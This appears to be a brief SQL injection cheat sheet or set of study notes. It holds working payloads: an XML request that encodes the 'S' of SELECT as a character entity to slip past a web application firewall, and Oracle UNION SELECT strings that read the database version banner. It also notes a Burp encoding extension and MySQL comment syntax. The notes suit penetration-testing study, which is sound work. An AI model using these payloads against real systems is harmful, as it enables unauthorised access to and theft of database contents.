 # New Findings

- Hidden tables
- Login Bypass

Obfuscate the "S" in select for XML SQLi to bypass WAF
```
<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>
```
> Hackverter
 - Encodes/Decodes XML tags on the fly

#### Oracle
- Placeholder Table: DUAL
``'+UNION+SELECT+'abc','def'+FROM+dual--``
`'UNION+select+BANNER,+NULL+from+v$version--`
 
#### MySQL
- Alternative comment "#"